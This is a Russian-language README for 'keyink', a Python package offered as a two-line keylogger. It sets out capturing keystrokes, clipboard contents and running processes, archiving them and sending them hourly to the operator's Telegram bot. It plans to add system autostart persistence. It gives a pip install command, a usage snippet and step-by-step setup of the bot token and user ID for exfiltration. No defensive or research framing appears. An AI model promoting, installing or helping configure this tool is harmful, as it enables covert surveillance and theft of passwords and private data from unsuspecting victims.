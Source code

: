 [![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

# keyink

Кейлогер всего лишь в 2 строки, с отправкой в Telegram.

## Описание
`keyink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)
  * [Получение айди](#Получение-айди)

### Текущие возможности
1. Логирование клавиатуры, буфера обмена, запущенных процессов.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других логеров.
2. Добавление в автозагрузку системы.
 
## Установка

Установить последнюю версию можно командой:
```
pip install keyink==0.0.1
```

## Пример использования
### Стандартный
```python
from keyink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
Стандартный ```Logger``` запускает все доступные логгеры и отправляет собранные данные архивом вам в Telegram каждый час.

Передаваемые параметры:
* `token` - токен Telegram бота.
* `user_id` - ваш айди Telegram.
* `keyboard` - добавить логер клавиатуры (True/False).
* `clipboard` - добавить логер буфера обмена (True/False).
* `processes` - добавить логер процессов (True/False).
* `special_keys` - добавлять в логи спец клавиши Enter, Shift, Alt  и тд (True/False).
* `pause_iteration` - частота проверки запущенных процессов в секундах.
* `sleep` - частота отправки собранных логов в секундах.

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописываем название бота, затем ник с прикладкой ```_bot``` в конце.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
